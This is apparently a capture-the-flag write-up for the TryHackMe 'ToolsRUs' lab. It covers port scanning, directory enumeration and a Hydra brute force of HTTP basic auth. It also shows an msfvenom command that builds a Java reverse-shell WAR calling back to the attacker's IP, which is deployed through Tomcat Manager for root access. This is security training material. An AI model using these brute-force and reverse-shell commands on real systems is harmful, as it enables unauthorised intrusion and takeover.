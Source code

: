 
[TryHackMe Link](https://tryhackme.com/room/toolsrus){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

In this section, I will discuss about gaining access to a system by exploiting vulnerabilities in various services. The services include Apache Tomcat, Apache Coyote JSP Engine, Apache Jserv, and an HTTP server on port 80.

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |
| <p id="p3" style="font-size:14px;  color: purple"></p>     | <p id="s3" style="font-size:14px; color: purple"></p>  |<p id="d3" style="font-size:14px; color: purple"></p> |
| <p id="p4" style="font-size:14px;  color: purple"></p>     | <p id="s4" style="font-size:14px; color: purple"></p>  |<p id="d4" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```s linenums="1" hl_lines="6 11 14 18"
    # Nmap 7.93 scan initiated Wed Feb 22 10:11:28 2023 as: nmap -sC -sV -O -oN nmap.txt 10.10.4.144
    Nmap scan report for 10.10.4.144
    Host is up (0.15s latency).
    Not shown: 996 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 460e76fbb6a2f7f78536656f8809f7e8 (RSA)
    |   256 a1bc5d3478f4e8d4091805ef9d9072c5 (ECDSA)
    |_  256 0757145539dfc56296f9fc4883cf127e (ED25519)
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/7.0.88
    |_http-server-header: Apache-Coyote/1.1
    8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
    |_ajp-methods: Failed to get a valid response for the OPTION request
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=2/22%OT=22%CT=1%CU=33697%PV=Y%DS=5%DC=I%G=Y%TM=63F630B
    OS:F%P=aarch64-unknown-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS
    OS:=8)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M
    OS:505ST11NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68
    OS:DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
    OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
    OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
    OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
    OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
    OS:=40%CD=S)

    Network Distance: 5 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Feb 22 10:11:59 2023 -- 1 IP address (1 host up) scanned in 30.78 seconds

  ```

## <b>Enumerating Apache Coyote JSP Engine</b>

At first, my plan was to exploit the Apache JSP Engine by uploading a malicious WAR file to obtain a shell. Since I was familiar with this method, I felt confident. However, I was unable to pass the authorization process.

In my attempts to gain access to the Tomcat Manager, I initially turned to a Python script to brute force default logins for Apache Tomcat. Unfortunately, this approach also failed. 

## <b>Enumerating the HTTP Server</b>

I then shifted my focus to the HTTP server running on port 80, where I discovered a simple page that hinted at the development of the site. 

<img id="image1" />

Utilizing a dirsearch Python script, I was able to locate potentially hidden pages and directories that could provide further clues and entry points.

```s linenums="1" hl_lines="21-23"
    Target: http://10.10.4.144/

    [10:13:58] Starting: 
    [10:14:03] 403 -  297B  - /.ht_wsr.txt                                     
    [10:14:03] 403 -  300B  - /.htaccess.bak1
    [10:14:03] 403 -  302B  - /.htaccess.sample
    [10:14:03] 403 -  300B  - /.htaccess.orig
    [10:14:03] 403 -  300B  - /.htaccess.save
    [10:14:03] 403 -  301B  - /.htaccess_extra
    [10:14:03] 403 -  300B  - /.htaccess_orig
    [10:14:03] 403 -  298B  - /.htaccess_sc
    [10:14:03] 403 -  298B  - /.htaccessBAK
    [10:14:03] 403 -  298B  - /.htaccessOLD
    [10:14:03] 403 -  290B  - /.htm
    [10:14:03] 403 -  299B  - /.htaccessOLD2                                   
    [10:14:03] 403 -  291B  - /.html
    [10:14:03] 403 -  300B  - /.htpasswd_test
    [10:14:03] 403 -  296B  - /.htpasswds
    [10:14:03] 403 -  297B  - /.httr-oauth
    [10:14:36] 200 -  168B  - /index.html                                       
    [10:14:47] 401 -  458B  - /protected/data/                                  
    [10:14:47] 401 -  458B  - /protected/runtime/
    [10:14:47] 301 -  298B -  /guidelines
    [10:14:49] 403 -  299B  - /server-status                                    
    [10:14:49] 403 -  300B  - /server-status/
```

## <b>Exploiting '/guidelines' page</b>

After running the dirsearch script, I was able to identify two promising directories that could lead to further leads, namely `protected` and `guidelines`. The former sounded highly secured, but to my surprise, it was not. While I was filling out the question, I decided to check out the `/guidelines` page, and found a username called `bob`.

<img id="image2" />

Leveraging this discovery, I was able to brute force Bob's password using Hydra, which gave me access to the `protected` directory. It was a simple HTTP Basic Authorization Request which can be brute forced with the following command:

!!! tip "Hydra Command"
    <p id="desc" style="font-size:15px">hydra $IP -l bob -P ~/rockyou.txt http-get /protected -V</p>
    


<img id="image3" />

I successfully obtained Bob's login credentials, and used them to access the page that I had discovered earlier.

## <b>Exploiting Apache Tomcat with Harvested Credentials</b>

When I logged in, I discovered that the Authorization mechanism used for the Tomcat Service and the `/protected` directory were the same. 

<img id="image4" />

This allowed me to reuse the credentials that I had previously harvested. With access granted, I uploaded a Java WAR file to the manager and made a reverse shell from it.

!!! Bug "Msfvenom Payload"
    <span>msfvenom -p java/shell_reverse_tcp lhost=10.17.3.217 lport=5432 -f war -o shell.war</span>

<img id="image5" />

Also, I made a listener, before I accessed {++http://10.10.4.144:1234/shell/++} giving me the shell.


## <b>Gaining Root access</b>

Surprisingly, I was granted `root` access, rather than the expected `www-data` shell. Easy-Peasy

```s
root@ip-10-10-4-144:/# cat root/*
cat root/*
[REDACTED]
cat: root/snap: Is a directory
```

!!! success ""
    <span>Peace-out!</span>

<script>

// JSON object
const data = {
    "desc": "Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit",
    "ip":  "10.10.4.144",
    "ports": "22/tcp,ssh,OpenSSH 7.2p2 Ubuntu;80/tcp,http,Apache httpd 2.4.18;1234/tcp,http,Apache Tomcat/Coyote JSP engine 1.1;8009/tcp,ajp13,Apache Jserv (Protocol v1.3)",
    "difficulty":"easy",
    "id": "3"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>